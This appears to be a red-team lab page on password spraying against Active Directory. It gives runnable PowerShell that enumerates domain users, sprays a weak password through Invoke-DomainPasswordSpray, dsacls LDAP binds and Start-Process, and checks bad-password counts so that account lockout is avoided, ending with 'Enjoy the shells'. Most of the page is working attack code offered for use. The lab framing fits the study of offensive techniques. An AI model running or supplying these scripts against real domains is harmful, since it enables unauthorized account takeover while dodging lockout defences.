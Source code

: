 # Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-29-13.png)

{% code title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-32-37.png)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% content-ref url="using-dsacls-to-check-ad-object-permissions.md" %}
[using-dsacls-to-check-ad-object-permissions.md](using-dsacls-to-check-ad-object-permissions.md)
{% endcontent-ref %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% code title="spray-ldap.ps1" %}
```csharp
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```
{% endcode %}

Enjoy the shells:

![](../../.gitbook/assets/spraying.gif)

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}
